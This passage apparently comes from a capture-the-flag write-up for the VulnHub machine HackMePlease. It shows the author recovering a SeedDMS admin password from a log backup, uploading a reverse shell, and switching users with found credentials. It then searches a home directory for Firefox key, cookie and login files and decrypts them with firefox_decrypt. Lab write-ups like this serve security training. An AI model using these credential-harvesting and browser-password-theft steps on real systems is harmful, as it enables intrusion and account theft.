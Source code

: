 	┌──(root💀kali)-[~/vulnHub/HackMePlease/192.168.110.7/exploit/seeddms]
	└─# cat access.log.bak | grep password
	127.0.0.1 - - [03/Jul/2021:00:01:12 -0700] "GET /seeddms51x/seeddms-5.1.22/out/backdoor.php?user=admin&password='HacK@#$L33T$%!@' HTTP/1.1" 401 4252 "/seeddms51x/seeddms-5.1.22/out/backdoor.php?user=admin&password=HacK@#$L33T$%!@" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
	```
	- admin:`HacK@#$L33T$%!@`
3. Login w/ admin:`HacK@#$L33T$%!@`
4. Upload Reverse shell

# Privilege Escalation
## Saket - Via Creds Found
1. Earlier, we obtained Saket's credentials
2. Switch to saket w/ saket:`Saket@#$1337`
	![](images/Pasted%20image%2020220201024743.png)
## Root - Via Sudo
1. After browsing through saket's home directory, there are firefox files
2. Obtain firefox files to extract password from it
	```
	saket@ubuntu:~$ find $(pwd)find $(pwd) 2>/dev/null | grep "key\|cookies\|logins\|cert"
	/home/saket/.gnupg/private-keys-v1.d
	/home/saket/.local/share/keyrings
	/home/saket/.local/share/keyrings/user.keystore
	/home/saket/.local/share/keyrings/login.keyring
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/key4.db
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/cookies.sqlite
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/logins.json
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/cert9.db
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/logins-backup.json
	/home/saket/.mozilla/firefox/jokfpwvh.default-release/cookies.sqlite-wal
	```
	- `key4.db`
	- `cookies.sqlite`
	- `logins.json`
	- `cert9.db`
3. Transfer to kali
4. Decrypt it
	```
	┌──(root💀kali)-[~/tools/firefox_decrypt]
	└─# python3 firefox_decrypt.py ~/vulnHub/HackMePlease/192.168.110.7/loot/firefox/
	2022-02-01 02:54:02,743 - WARNING - profile.ini not found in /root/vulnHub/HackMePlease/192.168.110.7/loot/firefox/
	2022-02-01 02:54:02,743 - WARNING - Continuing and assuming '/root/vulnHub/HackMePlease/192.168.110.7/loot/firefox/' is a profile location
